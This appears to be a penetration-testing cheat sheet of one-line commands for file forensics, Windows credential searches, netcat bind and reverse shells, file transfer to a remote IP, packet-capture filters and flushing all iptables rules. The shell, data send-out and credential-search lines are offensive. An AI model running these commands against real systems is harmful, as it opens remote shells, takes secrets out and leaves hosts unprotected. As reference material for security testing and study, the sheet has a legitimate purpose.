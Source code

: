File type info: `file $file`\
Exif information: `exiftool $file`\
Search for other files/magic info in a file: `binwalk $file`\
Extract data from a file: `bulk_extractor $file -O {output dir}`\
Install steghide: `apt-get install steghide`\
Extract data with steghide: `steghide extract -sf picture.jpg`\
LSPst: `lspst filename.pst`\
ReadPST: `readpst -DSr -o mailbox-export`

#### Windows

Find files PSH: `gci -filter * -recurse`\
Find in files: `dir /s *username* == *password* == *cred* == *key* == *.txt*`\
Find files recursively: `dir c: /S /OD /TC`

### Netcat/nc # nc.traditional or nc?

Bind shell listener: `nc.exe -nlvp 443 -e cmd.exe`\
Reverse shell listener: `nc -nv $ip 443 -e /bin/bash`\
Connect to a SMTP mail server: `nc -nv $ip 25`\
Listen on TCP port: `nc -nlvp 443`\
Connect to NC listener: `nc -nv $ip 43`\
Send a file: `nc -nv $IP 443 < outgoing-data`\
Receive a file: `nc -nlvp 443 > incoming-data`

## Traffic dumping and Packet captures

### Wireshark:

Filter for SMTP traffic: `tcp.port eq 25`\
ICMP only: `icmp`\
DNS only: `dns`\
SIP only: `sip`\
Specific windows stuff: `smb || nbns || dcerpc || nbss || dns`
MAC address filter slicing: `eth.addr[0:3] == 00:50:56`\
Negate traffic for this host: `!(ip.addr == 192.168.0.1)`\
HTTP Post only traffic: `http.request.method == post`

### TCPdump:

Replay a pcap file: `tcpdump -r filename.pcap`\
Grab a packet capture on port 80: `tcpdump  -i ens0 -xxNNSs 1514 -w output.pcap`

## IPtables

### Flush, delete, accept all traffic:

`sudo iptables -P INPUT ACCEPT`\
`sudo iptables -P FORWARD ACCEPT`\
`sudo iptables -P OUTPUT ACCEPT`\
`sudo iptables -t nat -F`\
`sudo iptables -t mangle -F`\
`sudo iptables -F`\
`sudo iptables -X`
